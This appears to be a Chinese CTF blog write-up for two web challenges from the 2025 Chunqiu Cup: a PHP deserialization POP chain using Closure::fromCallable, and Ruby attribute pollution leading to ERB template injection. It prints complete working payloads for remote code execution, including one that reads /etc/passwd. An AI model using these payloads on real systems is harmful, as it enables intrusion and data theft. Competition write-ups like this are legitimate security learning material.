





---
title: "2025年春秋杯夏季赛"
date: 2025-08-07T15:28:54+08:00
summary: "2025年春秋杯夏季赛"
url: "/posts/2025年春秋杯夏季赛/"
categories:
  - "赛题wp"
tags:
  - "2025春秋杯夏季赛"
draft: false
---

比赛的时候刚好约了朋友出去玩，回来之后只拿到了反序列化的这道题，那就只能写写这道题了

# ez_pop

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class class_A
{
    public $s;
    public $a;

    public function __toString()
    {
        echo "2 A <br>";
        $p = $this->a;
        return $this->s->$p;
    }
}

class class_B
{
    public $c;
    public $d;

    function is_method($input){
        if (strpos($input, '::') === false) {
            return false;
        }
    
        [$class, $method] = explode('::', $input, 2);
    
        if (!class_exists($class, false)) {
            return false;
        }
    
        if (!method_exists($class, $method)) {
            return false;
        }
    
        try {
            $refMethod = new ReflectionMethod($class, $method);
            return $refMethod->isInternal();
        } catch (ReflectionException $e) {
            return false;
        }
    }
    
    function is_class($input){
        if (strpos($input, '::') !== false) {
            return $this->is_method($input);
        }
    
        if (!class_exists($input, false)) {
            return false;
        }
    
        try {
            return (new ReflectionClass($input))->isInternal();
        } catch (ReflectionException $e) {
            return false;
        }
    }
    public function __get($name)
    {
        echo "2 B <br>";

        $a = $_POST['a'];
        $b = $_POST;
        $c = $this->c;
        $d = $this->d;
        if (isset($b['a'])) {
            unset($b['a']);
        }
        if ($this->is_class($a)){
            call_user_func($a, $b)($c)($d);
        }else{
            die("你真该请教一下oSthinggg哥哥了");
        }
    }
}

class class_C
{
    public $c;

    public function __destruct()
    {
        echo "2 C <br>";
        echo $this->c;
    }
}


if (isset($_GET['un'])) {
    $a = unserialize($_GET['un']);
    throw new Exception("noooooob!!!你真该请教一下万能的google哥哥了");
}

```

php反序列化，先把链子搞出来吧

```php
class_C::__destruct()->class_A::__toString()->class_B::__get()
```

然后我们看`__get()`方法

```php
    public function __get($name)
    {
        echo "2 B <br>";

        $a = $_POST['a'];
        $b = $_POST;
        $c = $this->c;
        $d = $this->d;
        if (isset($b['a'])) {
            unset($b['a']);
        }
        if ($this->is_class($a)){
            call_user_func($a, $b)($c)($d);
        }else{
            die("你真该请教一下oSthinggg哥哥了");
        }
    }
```

这个跟xyctf2024中的ezPOP是一样的，但是之前的方法是用`implode`函数去进行连接字符串然后进行调用的，但这里的话有一个if语句判断

```php
    function is_class($input){
        if (strpos($input, '::') !== false) {
            return $this->is_method($input);
        }

        if (!class_exists($input, false)) {
            return false;
        }

        try {
            return (new ReflectionClass($input))->isInternal();
        } catch (ReflectionException $e) {
            return false;
        }
    }

```

其实就是检测是否是静态类方法的调用，用Closure::fromCallable去创建一个闭包对象就行了



本地测试一下

```php
<?php

function test($name){
    echo "hello, $name";
}

$closure = Closure::fromCallable('test');
$closure('world');//输出hello, world
```

那我们试一下刚刚的动态链式函数调用

```php
<?php

$a = "Closure::fromCallable";
$b = array("Closure", "fromCallable");
$c = "system";
$d = "whoami";

call_user_func($a, $b)($c)($d);
//wanth3f1ag\23232
```

这里的话就成功绕过了，后面的话就跟xyctf里面的那道题一样了，绕过GC回收，用数组去包装一下序列化字符串就行了，直接用`array($c, null)`得到一个数组,然后改成非法数组

最终的poc

```php
<?php
class class_A
{
    public $s;
    public $a;
}
class class_B
{
    public $c;
    public $d;
}

class class_C
{
    public $c;
}
//class_C::__destruct()->class_A::__toString()->class_B::__get()
$c = new class_C();
$c -> c = new class_A();
$c -> c -> s = new class_B();
$c -> c -> s -> c = "system";
$c -> c -> s -> d = "whoami";
$d = serialize(array($c,null));
$e = str_replace("i:1;N;","i:0;N;",$d);
echo $e;
//a:2:{i:0;O:7:"class_C":1:{s:1:"c";O:7:"class_A":2:{s:1:"s";O:7:"class_B":2:{s:1:"c";s:6:"system";s:1:"d";s:6:"whoami";}s:1:"a";N;}}i:0;N;}
```

分别传入

```html
GET:?un=a:2:{i:0;O:7:"class_C":1:{s:1:"c";O:7:"class_A":2:{s:1:"s";O:7:"class_B":2:{s:1:"c";s:6:"system";s:1:"d";s:6:"whoami";}s:1:"a";N;}}i:0;N;}

POST:0=Closure&1=fromCallable&a=Closure::fromCallable
```



成功RCE(这里的话是用的自己的本地环境)，原环境的flag在环境变量中，并且是无回显的，所以需要打无回显RCE，这里就不多说了

其他的web就没环境做了。。。

# ez_ruby

```ruby
require "sinatra"
require "erb"
require "json"

class User
    attr_reader :name, :age

    def initialize(name="oSthinggg", age=21)
        @name = name
        @age = age
    end

    def is_admin?
        if to_s == "true"
            "a admin,good!give your fake flag! flag{RuBy3rB_1$_s3_1Z}"
        else
            "not admin,your "+@to_s
        end
    end

    def age
        if @age > 20
            "old"
        else
            "young"
        end
    end


    def merge(original, additional, current_obj = original)
        additional.each do |key, value|
            if value.is_a?(Hash)
            next_obj = current_obj.respond_to?(key) ? current_obj.public_send(key) : Object.new
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", next_obj)
            merge(original, value, next_obj)
            else
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", value)
            end
        end
        original
    end
end

user = User.new("oSthinggg", 21)


get "/" do  
    redirect "/set_age"
end

get "/set_age" do
    ERB.new(File.read("views/age.erb", encoding: "UTF-8")).result(binding)
end

post "/set_age" do
    request.body.rewind
    age = JSON.parse(request.body.read)
    user.merge(user,age)
end

get "/view" do 
    name=user.name().to_s
    op_age=user.age().to_s
    is_admin=user.is_admin?().to_s
    ERB::new("<h1>Hello,oSthinggg!#{op_age} man!you #{is_admin} </h1>").result
end     
```

又是一门自己之前没接触过的语言Ruby，只能先配环境然后去学一下基础知识

推荐看菜鸟教程：https://www.runoob.com/ruby/ruby-installation-windows.html

先做常规的代码审计，不过这个代码的意思还是很简单的

先定义了一个User类，设置了两个只读属性name和age和一个`initialize`初始化方法，并且后面实例化了一个User对象

```ruby
user = User.new("oSthinggg", 21)
```

接着往下看

```ruby
    def is_admin?
        if to_s == "true"
            "a admin,good!give your fake flag! flag{RuBy3rB_1$_s3_1Z}"
        else
            "not admin,your "+@to_s
        end
    end
    def age
        if @age > 20
            "old"
        else
            "young"
        end
    end
```

有一个管理员身份验证和年龄的判定函数，所以只要当前对象（user）调用 `to_s` 方法返回 "true"，就认为是 admin。

接下来我们看污染函数merge，解题的关键！

```ruby
    def merge(original, additional, current_obj = original)
        additional.each do |key, value|
            if value.is_a?(Hash)
            next_obj = current_obj.respond_to?(key) ? current_obj.public_send(key) : Object.new
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", next_obj)
            merge(original, value, next_obj)
            else
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", value)
            end
        end
        original
    end
```

original是原对象，additional是我们传入的JSON Hash例如（`{"key","value"]`）

先是遍历了key和value，如果value是JSON Hash的话， 就递归嵌套调用merge函数，如果是普通值就直接赋值并添加属性访问器

写个简单的demo测试一下

```ruby
class User
    attr_reader :name, :age
    def initialize(name="oSthinggg", age=21)
        @name = name
        @age = age
    end

    def merge(original, additional, current_obj = original)
        additional.each do |key, value|
            if value.is_a?(Hash)
            next_obj = current_obj.respond_to?(key) ? current_obj.public_send(key) : Object.new
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", next_obj)
            merge(original, value, next_obj)
            else
            current_obj.singleton_class.attr_accessor(key) unless current_obj.respond_to?(key)
            current_obj.instance_variable_set("@#{key}", value)
            end
        end
        original
    end
end
user = User.new("oSthinggg", 21)
test = {
    "age" => 22
}
user.merge(user,test)
print user.age
```

输出

```ruby
age is 22
name is oSthinggg
```

这里可以看到是成功污染了的

我们继续往下看接口

```ruby
get "/" do  
    redirect "/set_age"
end

get "/set_age" do
    ERB.new(File.read("views/age.erb", encoding: "UTF-8")).result(binding)
end

post "/set_age" do
    request.body.rewind
    age = JSON.parse(request.body.read)
    user.merge(user,age)
end

get "/view" do 
    name=user.name().to_s
    op_age=user.age().to_s
    is_admin=user.is_admin?().to_s
    ERB::new("<h1>Hello,oSthinggg!#{op_age} man!you #{is_admin} </h1>").result
end     
```

这里可以post传一个表单到/set_age接口，然后这里的话会解析成JSON的Hash并调用merge函数去污染属性

`/view`接口最终会显示用户名，这里会将name和age转化成字符串，to_s是一种内置的方法，用于将对象转化成字符串。之后会检查admin身份，并返回flag内容。

这里的话其实可以看到是一个ERB模板注入，new语句很明显是一个拼接的状态，那我们在to_s中去进行注入

```ruby
{"to_s": "<%= env %>"}
```

然后访问/view拿到flag

我这里自己起的环境进行测试

```sh
├── app.rb
└── views
    └── age.erb
```

这是目录结构

然后需要安装**Sinatra 和 JSON Gems**

```shell
gem install sinatra
gem install json
```

在app.rb文件所在目录下运行

```shell
E:\Ruby\Ruby-projects>ruby app.rb
== Sinatra (v4.1.1) has taken the stage on 4567 for development with backup from Puma
*** SIGUSR2 not implemented, signal based restart unavailable!
*** SIGUSR1 not implemented, signal based restart unavailable!
*** SIGHUP not implemented, signal based logs reopening unavailable!
Puma starting in single mode...
* Puma version: 6.6.1 ("Return to Forever")
* Ruby version: ruby 3.4.5 (2025-07-16 revision 20cda200d3) +PRISM [x64-mingw-ucrt]
*  Min threads: 0
*  Max threads: 5
*  Environment: development
*          PID: 30736
* Listening on http://[::1]:4567
* Listening on http://127.0.0.1:4567
Use Ctrl-C to stop
```

然后访问4567端口

测试一下

```html
POST /set_age HTTP/1.1
Host: 127.0.0.1:4567
Content-Length: 27
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:4567
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:4567/set_age
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"to_s": "<%= 7*7 %>"}
    
```

然后get访问/view路由



成功了！那我们试一下其他payload

```ruby
<%= 7 * 7 %>
<%= File.open(‘/etc/passwd’).read %>
<%= self %>    //枚举该对象可用的属性及方法
<%= self.class.name %>   //获取self对象的类名
<%= self.methods %>		//获取当前类的可用方法
<%= system("whoami")%>	//执行系统命令
```

这里system函数执行的结果没有回显结果，只会回显system函数的执行结果true或者false，但是输出会被打印到运行Sinatra服务器的那个进程的**标准输出**里



我们换成反引号输出命令执行结果

```ruby
{"to_s": "<%= `whoami` %>"}
```



成功RCE
